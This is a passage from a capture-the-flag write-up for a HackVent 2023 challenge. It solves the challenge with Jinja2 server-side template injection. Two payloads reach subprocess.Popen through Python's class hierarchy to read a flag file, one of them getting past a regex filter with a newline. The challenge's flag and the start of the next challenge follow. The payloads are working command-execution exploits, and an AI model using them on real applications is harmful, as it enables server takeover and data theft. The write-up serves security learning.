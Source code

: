 Now I just need to use that to read the flag:

    
    
    {% with a = config.__class__.mro()[-1].__subclasses__()[452]('cat /app/flag.txt',shell=True,stdout=-1,stderr=-1).communicate() %} {{ a }} {% endwith %}
    

On uploading:

![image-20231210204342936](../img/image-20231210204342936.png)

**Flag:`HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`**

#### Break Regex

An alternative way is to use `{{ }}` but break the regex. The easiest way to
do that is to include a newline, as the `.` in `re.findall(r"{{(.*?)}}",
open(tmp_path).read())` doesn’t include newline, unless `re.DOTALL` is given
as an option.

That means this payload works:

    
    
    {{
    [].__class__.__base__.__subclasses__()[452]('cat /app/flag.txt',shell=True,stdout=-1).communicate() }}
    

## HV23.11

### Challenge

![HackVent ball11](../img/hvball-medium-11.png) | HV23.11 Santa's Pie  
---|---  